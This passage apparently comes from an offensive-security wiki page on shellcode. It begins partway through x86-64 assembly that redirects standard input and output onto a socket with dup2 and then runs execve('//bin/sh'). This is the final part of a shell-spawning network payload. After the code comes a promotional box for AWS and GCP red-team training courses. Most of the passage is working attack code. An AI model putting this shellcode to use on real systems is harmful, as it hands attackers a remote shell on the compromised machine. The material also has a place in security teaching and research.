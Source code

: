 ```armasm
    ;   -> dup2(sockid, 1)
    ;   -> dup2(sockid, 0)
    mov  rax, r8
    mov  al, 0x5a
    sub  sil, 1
    syscall
    test rsi, rsi
    jne  dup2

    ; execve("//bin/sh", 0, 0)
    push rsi
    mov  rdi, 0x68732f6e69622f2f
    push rdi
    push rsp
    pop  rdi
    xor  rdx, rdx
    mov  rax, r8
    mov  al, 0x3b
    syscall
```

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**Resources Training AWS Red Team Expert (ARTE)**](https://training.khulnasoft.com/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**Resources Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.khulnasoft.com/courses/grte)

<details><summary>Support Resources</summary></details>
{% endhint %}

